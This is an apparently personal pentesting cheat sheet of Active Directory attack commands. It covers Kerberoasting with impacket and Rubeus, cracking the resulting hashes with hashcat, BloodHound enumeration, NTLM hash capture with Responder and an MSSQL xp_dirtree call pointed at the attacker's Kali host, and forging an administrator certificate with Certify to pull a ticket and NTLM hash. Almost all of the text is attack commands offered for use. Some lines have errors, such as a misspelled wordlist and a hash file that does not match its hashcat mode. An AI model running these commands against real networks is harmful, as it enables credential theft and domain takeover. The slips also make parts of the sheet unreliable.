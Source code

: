 Kerberoasting:
```
impacket-GetUserSPNs -request -dc-ip {dc ip} -outputfile hashes.kerberoast {domain/user}

Windows:
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```
**Hashcat grep mode Kerberos TGS-REQ: 13100**
```
hashcat -m 13100 hashes.asreproast /usr/share/wordlists/rokcyou.txt --force
```

To Sync time:
```
sudo ntpdate -u {target_ip} && impacket-GetUserSPNs...
```
#### Bloodhound
```
sudo neo4j start
bloodhound
```

Upload Data -> upload zip file

#### bloodhound-python
```
bloodhound-python -d domain -u user -p password -ns {dc-ip} -c all --zip
```

### NTLM Capture
```
sudo responder -I tun0
hashcat -m 5600
```


#### MSSQL
Login:
```
impacket-mssql user@ip -windows-auth
```

List of commands: `help`
NTLM capture:
```
sudo responder -I tun0
xp_dirtree \\{kali_ip}\whatever\hi
```


#### Certify

```
.\certify.exe find /vulnerable
Scenario 3:
.\certify.exe request /ca:dc.theshire.local\theshire-DC-CA /template:VulnTemplate /altname:administrator

Copy paste cert.pem into cert.pem on kali
run openssl command to export to cert.pfx
upload to target machine
Get ticket:
.\Rubeus.exe asktgt /user:administrator /certificate:C:\location\cert.pfx
Get NTLM:
.\Rubeus.exe asktgt /user:administrator /certificate:C:\location\cert.pfx /getcredentials /show /nowrap
```
